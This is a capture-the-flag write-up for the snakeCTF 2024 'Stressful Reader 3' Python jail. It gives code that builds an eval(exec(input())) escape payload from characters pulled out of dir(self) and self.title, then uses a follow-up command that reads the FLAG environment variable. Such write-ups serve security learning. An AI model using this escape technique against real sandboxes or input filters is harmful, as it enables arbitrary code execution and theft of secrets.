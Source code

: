 # Stressful Reader 3 [_snakeCTF 2024 Quals_]

**Category**: Misc

## Description

OMG this is a nightmare! Something has changed again! Will it be easier this time?

## Solution

Something has changed again, and the journey with pyjails continues.

By analysing the jail code, the first things that can be noticed:

1. There is no `get_var` function to directly read an env variable like it was done in Stressful Reader 2
2. The variable `self.title` now includes the string `(now with refactored code!)` which can become useful to extract some characters that previously were not available, more specifically `(` and `)`

By running `diff`, it can also be seen that now the `eval` keyword is not blacklisted any more, so it can be surely used in the payload.

The goal then is to send `eval(something)` where `something` has to be written by using the `lambda` trick used in the solution of Stressful Reader 2.

This `something` can be for example `exec(input())`, so after its execution it is possible to send an arbitrary payload like `import os; print(os.getenv('FLAG'))`.

The only thing to do now is to build a convenience function to extract the `input()` string from `dir(self)` and `self.title`, which can be done in the following way:

```python
title = r"                    (now with refactored code!)"

left_parentheses_idx = title.find("(")
right_parentheses_idx = title.find(")")

def get_left_parentheses():
    global left_parentheses_idx
    return f"(lambda {','.join(title)}: {title[left_parentheses_idx]})(*self.title)"

def get_right_parentheses():
    global right_parentheses_idx
    return f"(lambda {','.join(title)}: {title[right_parentheses_idx]})(*self.title)"


def get_both_parentheses():
    global left_parentheses_idx, right_parentheses_idx
    return f"(lambda {','.join(title)}: {title[left_parentheses_idx]} + {title[right_parentheses_idx]})(*self.title)"

def get_exec():
    # __delattr__ for 'e' -> 1st
    # __reduce_ex__ for 'x' -> 20
    # __delattr__ for 'e' -> 1st
    # __class__ for 'c' -> 0th
    global params
    delattr = get_param_names("__delattr__")
    reduce_ex = get_param_names("__reduce_ex__")
    class_ = get_param_names("__class__")
    return (
        f"(lambda {','.join(params)} : "
        + f"(lambda {','.join(delattr)}: {delattr[3]})(*{params[1]}) + "
        + f"(lambda {','.join(reduce_ex)}: {reduce_ex[10]})(*{params[20]}) + "
        + f"(lambda {','.join(delattr)}: {delattr[3]})(*{params[1]}) + "
        + f"(lambda {','.join(class_)}: {class_[2]})(*{params[0]}))"
        + "(*dir(self))"
    )


def get_input():
    # we want to send 'input()'
    # __init__ for 'in' -> 12th entry (from 0) in dir(self)
    # __repr__ for 'p' -> 21th entry (from 0) in dir(self)
    # __getattribute__ for 'ut' -> 8th entry (from 0) in dir(self)
    global params
    init = get_param_names("__init__")
    repr = get_param_names("__repr__")
    getattribute = get_param_names("__getattribute__")
    return (
        f"(lambda {','.join(params)} : "
        + f"(lambda {','.join(init)}: {init[2]} + {init[3]})(*{params[12]}) + "
        + f"(lambda {','.join(repr)}: {repr[4]})(*{params[21]}) + "
        + f"(lambda {','.join(getattribute)}: {getattribute[11]} + {getattribute[12]})(*{params[8]}))(*dir(self))"
    )

```

And finally the payload to send can be composed by using the functions that were just defined:

```python
payload = (
    "eval("
    + "+".join(
        [
            get_exec(),
            get_left_parentheses(),
            get_input(),
            get_both_parentheses(),
            get_right_parentheses(),
        ]
    )
    + ")"
)
```
